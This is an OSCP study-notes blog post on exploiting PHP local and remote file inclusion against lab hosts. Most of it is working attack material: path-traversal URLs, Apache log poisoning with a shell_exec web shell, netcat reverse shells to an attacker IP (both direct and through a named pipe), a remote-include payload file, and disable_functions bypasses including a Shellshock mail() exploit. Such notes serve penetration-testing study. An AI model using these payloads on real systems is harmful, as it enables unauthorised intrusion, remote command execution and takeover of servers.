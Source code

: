 ```yaml
---
title:  "OSCP: LFI and RFI"
date:   2018-03-26 03:22:33 +0800
categories: oscp
classes:
  - landing
---
```


## 1. Local file inclusion (LFI)
LFI happens when an PHP page explicitly calls include function to embed another PHP page, which can be controlled by the attacker.
For example, addguestbook.php below include another PHP page that can be chosen depending on the language input:
```php
$lang = $_GET['LANG'];
include( $lang . '.php' );
```
Because the LANG field can be controlled, the attacker can put in the path to a local file.
### a. Reading arbitrary files
Windows hosts file:
`http://10.11.23.188/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00&name=test&comment=test`

### b. Contaminating apache log file and executing it
Use netcat to connect to the server and contaminate `C:/xampp/apache/logs/access.log` file:
```
root@kali:~# nc -v 10.11.23.188 80
10.11.23.188: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.23.188] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
^C
```
After contamination, the access.log file on the serve is like this:
>10.11.0.105 - - [11/Mar/2018:11:24:17 -0400] "GET /addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig&name=test&comment=test HTTP/1.1" 200 369
>10.11.0.105 - - [11/Mar/2018:11:24:48 -0400] "<?php echo shell_exec($_GET['cmd']);?> " 400 366

Display the access.log file to execute the command:
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig&name=test&comment=test`

### c. Transferring netcat and obtaining reverse shell
Kali:
```
mkdir /tftp 
atftpd --daemon --port 69 /tftp 
cp /usr/share/windows-binaries/nc.exe /tftp/ 
```
Windows:
```
tftp -i 10.11.0.105 get nc.exe
nc.exe -e cmd.exe 10.11.0.105 4444
```
Kali:
```
nc -lvp 4444
```
Access this URL to open the shell
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444&name=test&comment=test`
Note:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
is used to get the TTY shell

## 2. Remote file inclusion (RFI)
Executing a command via a remote php page:
http://10.11.23.188/addguestbook.php?LANG=http://10.11.0.105:31/evil.txt%00&name=test&comment=test

Content of `/var/www/html/evil.txt`:
```php
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>
```
Most modern php configuration disallows remote file includes of http URIs. For example: `xampp/apache/bin/php.ini`
```ini
allow_url_fopen = Off
allow_url_include = Off
```
## 3. Bypass PHP disable_functions
### Use PHP code to download file and list directory
```php
function listDir($dir) {
    if ($handle = opendir($dir)) {
        while (false !== ($entry = readdir($handle))) {
            if ($entry != "." && $entry != "..")
                echo "$entry<br>";
        }
        closedir($handle);
    }
}
function downloadFile($url, $path) {
    unlink($path);
    $file = fopen ($url, 'rb');
    if ($file) {
        $newf = fopen ($path, 'wb');
        if ($newf) {
            while(!feof($file))
                fwrite($newf, fread($file, 1024 * 8), 1024 * 8);
            fclose($file);
        }
        fclose($file);
    }
}
```
### PHP 4.2.0+, PHP 5: pcntl_exec
```php
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec'))
    die('pcntl not found');

$cmd = $cmd."&pkill -9 bash >out";
pcntl_exec("/bin/bash", $cmd);
echo file_get_contents("out");        
?>
```
### PHP 5.2.3: Win32std ext Protections Bypass
```php
<?php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");
?>
```
### PHP 5.x: Shellshock
```php
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
    if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
        $tmp = tempnam(".","data");
        putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
        mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
    }
    else return "Not vuln (not bash)";
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output != "") return $output;
    else return "No output, or not vuln.";
}
?>
```
### 4. Deal with missing -e option in netcat
```php
<?php
function reverse_shell() {
    echo "Disabled functions: " . ini_get('disable_functions')."\n";
    unlink("/tmp/backpipe");
    echo shellshock("mknod /tmp/backpipe p ");
    echo shellshock("/bin/sh -c '/bin/sh 0</tmp/backpipe | nc 10.11.0.105 4444 1>/tmp/backpipe'");
}
?>
```

**References:**
- LFI:
http://resources.infosecinstitute.com/local-file-inclusion-code-execution/
https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
https://www.sunnyhoi.com/how-to-hack-a-website-using-local-file-inclusion-lfi/
- TTY:
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- Reverse shell:
https://highon.coffee/blog/reverse-shell-cheat-sheet/
https://netsec.ws/?p=331
- PHP disable_functions
http://blog.safebuff.com/2016/05/06/disable-functions-bypass/
- Netcat missing -e
https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/

